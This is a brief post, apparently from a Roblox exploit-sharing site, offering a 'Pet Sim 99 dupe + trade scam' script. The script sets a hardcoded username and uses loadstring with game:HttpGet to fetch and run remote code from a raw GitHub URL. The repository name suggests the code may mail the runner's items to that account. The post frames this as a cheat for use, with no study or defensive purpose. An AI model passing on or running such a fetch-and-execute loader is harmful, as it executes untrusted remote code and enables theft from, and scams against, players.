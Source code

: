 PET SIM 99 DUPE + TRADE SCAM

script:

Username = "gt_or1"
loadstring(game:HttpGet("https://raw.githubusercontent.com/LypherX/PS99Mail/main/Mementomori"))()```
